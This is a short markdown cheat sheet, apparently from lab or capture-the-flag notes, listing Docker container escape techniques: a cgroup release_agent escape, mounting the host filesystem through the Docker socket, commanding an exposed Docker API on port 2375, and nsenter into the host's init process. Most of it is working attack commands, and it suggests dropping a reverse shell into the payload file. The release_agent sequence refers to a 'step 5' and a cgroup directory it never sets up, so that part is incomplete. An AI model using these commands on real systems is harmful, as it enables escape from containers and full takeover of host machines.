 # Linux Docker container priv escalation

## Exploit privlidged capabilities


1. capsh --print
Check capabilities first

2.
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/exploit" > /tmp/cgrp/release_agent
echo '#!/bin/sh' > /exploit
echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
chmod a+x /exploit
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"

Note: We can place whatever we like in the /exploit file (step 5). This could be, for example, a reverse shell to our attack machine.

## Exploiting docker socket

1. ls -la /var/run | grep sock
srw-rw---- 1 root docker 0 Dec 9 19:37 docker.sock

confirm you can run docker commands (be root in container or be in docker group as a lower-privileged user)
 
2. docker run -v /:/mnt --rm -it alpine chroot /mnt sh

## Exposed Docker port 2375

1. curl http://10.10.85.243:2375/version

2. docker -H tcp://10.10.85.243:2375 ps

Now that we've confirmed that we can execute docker commands on our target, we can do all sorts of things. For example, start containers, stop containers, delete them, or export the contents of the containers for us to analyse further.

## Namespace abuse

For this vulnerability, we will be using nsenter (namespace enter). This command allows us to execute or start processes, and place them within the same namespace as another process. In this case, we will be abusing the fact that the container can see the "/sbin/init" process on the host, meaning that we can launch new commands such as a bash shell on the host. 

Use the following exploit: nsenter --target 1 --mount --uts --ipc --net /bin/bash
